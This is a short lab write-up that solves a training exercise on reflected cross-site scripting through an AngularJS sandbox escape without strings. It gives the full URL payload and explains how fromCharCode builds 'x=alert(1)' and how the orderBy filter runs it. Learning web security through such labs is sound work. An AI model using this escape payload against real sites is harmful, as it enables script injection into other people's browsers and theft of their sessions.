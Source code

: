 # Lab: Reflected XSS with AngularJS sandbox escape without strings

## Lab escription

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/2fee5309-af71-4fba-971b-1d843c52281a)

## Solution

Append the following in the url to cause the alert, `/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1`

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/77fa1a20-ae34-4b4d-9334-a363aa2bbcfb)

- `toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)` constructs the string `x=alert(1)` using character codes:

- 120 corresponds to 'x'
- 61 corresponds to '='
- 97 corresponds to 'a'
- 108 corresponds to 'l'
- 101 corresponds to 'e'
- 114 corresponds to 'r
- 116 corresponds to 't'
- 40 corresponds to '('
- 49 corresponds to '1'
- 41 corresponds to ')'

- The expression [1] | `orderBy:'x=alert(1)' = 1` attempts to execute the orderBy filter using the crafted string `'x=alert(1)'` as the sorting criterion.
